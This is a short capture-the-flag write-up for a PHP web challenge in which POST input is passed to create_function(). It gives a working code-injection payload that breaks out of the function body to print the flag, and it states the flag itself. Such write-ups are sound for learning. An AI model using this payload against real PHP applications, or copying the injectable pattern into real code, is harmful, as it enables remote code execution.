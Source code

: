 Source code given:
```
include "flag.php";

if (isset ($_POST['c']) && !empty ($_POST['c'])) {
    $fun = create_function('$flag', $_POST['c']);
    print($success);
    //fun($flag);
    if (isset($_POST['q']) && $_POST['q'] == 'checked') {
        die();
    }
}
?>
```
+ create_function() in php has a code injection.
+ Its exploit is publically available: https://www.exploit-db.com/exploits/32417
+ From the above exploit we got the payload as follows:
payload: return -1 * var_dump($a[""]);}echo $flag;/*"]
Thus we got the flag.
Flag: WEBSEC{HHVM_was_right_about_not_implementing_eval}

